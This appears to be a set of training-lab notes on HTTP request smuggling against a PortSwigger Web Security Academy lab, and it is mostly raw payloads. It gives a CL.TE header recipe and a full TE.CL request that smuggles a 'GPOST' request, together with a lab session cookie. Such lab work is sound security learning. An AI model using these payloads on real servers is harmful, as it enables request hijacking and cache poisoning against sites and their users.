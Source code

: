 ### CL.TE 
Copy 2 GET request. Change request method GET to POST in first request. Add following things in first request.
```txt
Content-Length: 15
Transfer-Encoding: chunked

0

HACKED
```
Now send both request one by one and see error message in second request's response. 
### TE.CL
```txt
POST / HTTP/1.1
Host: 0a5100c4035607e984f33b25009300f5.web-security-academy.net
Cookie: session=yErlfd1VMHYJ0vU897293SwfIhZulBhs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

a8
GPOST / HTTP/1.1
Host: 0a5100c4035607e984f33b25009300f5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

HMCyberAcademy
0


```
